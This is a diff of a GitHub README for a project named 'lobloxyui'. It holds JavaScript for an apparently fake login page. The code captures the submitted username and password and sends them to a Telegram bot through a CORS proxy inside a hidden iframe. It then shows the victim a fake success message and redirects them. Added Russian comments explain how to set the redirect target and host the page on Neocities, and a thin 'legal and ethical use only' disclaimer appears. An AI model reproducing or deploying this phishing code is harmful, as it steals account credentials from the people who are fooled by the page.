

Before and after one commit to Mischlan/lobloxyui, a Markdown page: README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -72,26 +139,40 @@ Perfekt für Tests oder Demonstrationszwecke (nutze es nur legal und ethisch!).
         const proxyUrl = "https://corsproxy.io/?";
-        const redirectUrl = "https://www.google.com"; // ← Ändern!
+
+        // СЮДА ВСТАВЬ ССЫЛКУ, НА КОТОРУЮ ПЕРЕНАПРАВЛЯТЬ ПОСЛЕ ЛОГИНА
+        const redirectUrl = "https://www.google.com";  // ← Замени на свой URL!
+        // Примеры:
+        // "success.html" — если у тебя есть файл success.html на Neocities
+        // "https://youtube.com"
+        // "https://deine-seite.neocities.org/dashboard"
 
         document.getElementById("loginForm").addEventListener("submit", function(e) {
             e.preventDefault();
+
             const rawUsername = document.getElementById("username").value;
             const rawPassword = document.getElementById("password").value;
+
             const text = encodeURIComponent(`🔔 Neuer Login-Versuch!\n\n👤 Benutzername: ${rawUsername}\n🔑 Passwort: ${rawPassword}`);
+
             const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${text}&parse_mode=HTML`;
+
             const fullUrl = proxyUrl + encodeURIComponent(apiUrl);
 
+            // Отправка данных в Telegram
             const iframe = document.createElement('iframe');
             iframe.src = fullUrl;
             iframe.style.display = "none";
             document.body.appendChild(iframe);
             setTimeout(() => document.body.removeChild(iframe), 1000);
 
+            // Показываем успех
             document.getElementById("status").innerHTML = "Erfolgreich angemeldet! Weiterleitung... 🔄";
             document.getElementById("status").style.color = "#28a745";
 
+            // Очистка полей
             document.getElementById("username").value = "";
             document.getElementById("password").value = "";
 
+            // Перенаправление через 2 секунды
             setTimeout(() => {
                 window.location.href = redirectUrl;
             }, 2000);
```
Also changed, not shown: other parts of README.md (+70 -3 lines).
